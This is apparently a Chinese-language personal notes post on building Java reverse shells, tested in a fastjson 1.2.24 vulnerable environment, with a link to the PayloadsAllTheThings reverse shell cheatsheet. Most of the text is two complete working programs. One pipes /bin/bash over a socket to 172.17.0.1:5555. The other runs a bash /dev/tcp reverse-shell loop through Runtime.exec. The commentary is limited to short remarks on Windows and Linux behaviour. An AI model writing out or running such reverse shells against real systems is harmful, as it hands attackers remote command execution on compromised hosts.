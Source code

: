 参考：

[PayloadsAllTheThings/Reverse Shell [Cheatsheet.md](http://Cheatsheet.md) at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell [Cheatsheet.md#java](http://Cheatsheet.md#java))

# 记录（直接看第二个标题）

链接内的代码本来没有main函数的，我自己添加了main之后的具体代码如下

```Java
public class JavaShell {
    public static void main(String[] args) throws Exception {
        String host="172.17.0.1";
        int port=5555;
        String cmd="/bin/bash";
        java.lang.Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        java.net.Socket s=new java.net.Socket(host,port);
        java.io.InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
        java.io.OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()){
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){}
        }
        p.destroy();
        s.close();
    }
}
```

*在反弹win的时候发现问题：为什么需要先debug过一次反弹的代码我们才可以完成反弹shell？？？这还被我发现了？* 但是在反弹linux的时候一次就成功

# 有mian函数的使用Runtime的Java反弹Shell

*以下环境都是在fastjson1.2.24漏洞环境下测试*

当先把带有main函数的反弹shell `JavaShell_Runtime_Main.java`文件放在docker里面尝试是否可以反弹。编译`JavaShell_Runtime_Main.java`之后**反弹成功**

```Java
public class JavaShell_Runtime_Main{
  public static void main(String[] args) {
    try{
      Runtime r = Runtime.getRuntime();
      Process p = r.exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/127.0.0.1/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"});
      p.waitFor();
    }
    catch(Exception e){}
  }
}
```
